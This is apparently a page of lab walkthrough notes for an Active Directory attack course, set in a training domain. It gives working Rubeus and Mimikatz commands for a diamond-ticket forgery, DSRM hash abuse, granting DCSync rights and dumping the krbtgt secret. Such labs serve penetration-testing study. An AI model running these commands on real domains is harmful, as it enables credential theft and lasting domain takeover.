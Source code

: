 
### Objective 10:

- Use Domain Admin privileges obtained earlier to execute the Diamond Ticket attack.

#### (Diamond Ticket) 
`/ticketusersid`: SID of user for which ticket is generated.
`/groups`: SID of group like 'Domain Admins'
`/krbkey` AES256 hash of krbtgt
```powershell

Invoke-Mimi -Command '"lsadump:dcsync /user:krbtgt"' 

Rubeus.exe diamond /krbkey:154cb6624b1d859f7080a6615adc488f09f92843879b3d914cbcb5a8c3cda848 /tgtdeleg /enctype:aes /ticketuser:administrator /domain:dollarcorp.moneycorp.local /dc:dcorp-dc.dollarcorp.moneycorp.local /ticketuserid:500 /groups:512 /createnetonly:C:\Windows\System32\cmd.exe /show /ptt

```


### Objective 11:

##### DSRM Attack

```powershell

####Enumerate DSRM or local administrator ntlm hash
Invoke-Mimi -Command '"token::elevate" "lsadump::sam"'

####Change login behaviour from registry to ptt
New-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\" -Name "DsrmAdminLogonBehavior"
-Value 2 -PropertyType DWORD

####PTT using ntlm hash
Invoke-Mimi -Command '"sekurlsa::pth /domain:dcorp-dc.dollarcorp.moneycorp.local /user:Administrator /ntlm:a102ad5753f4c441e3af31c97fad86fd /run:powershell.exe"'
```


### Objective 12:

##### Abuse Rights

Below are the replication rights that allow to perform DCsync attack.

**DS-Replication-Get-Changes| Replicating Directory Changes All | Replicating Directory Changes In Filtered Set**.
```powershell

####<PTT to DC>

#### Adding right for DCsync attack
Add-DomainObjectAcl -TargetIdentity 'DC=dollarcorp,DC=moneycorp,DC=local' -PrincipalIdentity studentx -Rights DCSync -PrincipalDomain dollarcorp.moneycorp.local -TargetDomain dollarcorp.moneycorp.local -Verbose


####Checking Rights
Get-DomainObjectAcl -SearchBase "DC=dollarcorp,DC=moneycorp,DC=local" -SearchScope Base -ResolveGUIDs | ?{($_.ObjectAceType -match 'replication-get') -or ($_.ActiveDirectoryRights -match 'GenericAll')} | ForEach-Object {$_ | Add-Member NoteProperty 'IdentityName' $(Convert-SidToName $_.SecurityIdentifier);$_} | ?{$_.IdentityName -match "studentx"}


#### From student machine perform DCsync attack.
C:\AD\Tools\SafetyKatz.exe "lsadump::dcsync /user:dcorp\krbtgt" "exit"
```